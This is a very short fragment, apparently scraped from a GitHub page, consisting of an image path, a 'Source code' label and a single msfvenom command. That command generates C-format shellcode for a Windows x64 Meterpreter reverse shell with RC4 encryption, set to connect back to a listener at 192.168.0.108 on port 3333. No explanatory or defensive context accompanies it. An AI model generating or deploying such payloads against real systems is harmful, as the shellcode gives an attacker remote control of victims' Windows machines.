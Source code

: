 	>msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 lhost=192.168.0.108 lport=3333 RC4PASSWORD=123qwe!@# -f c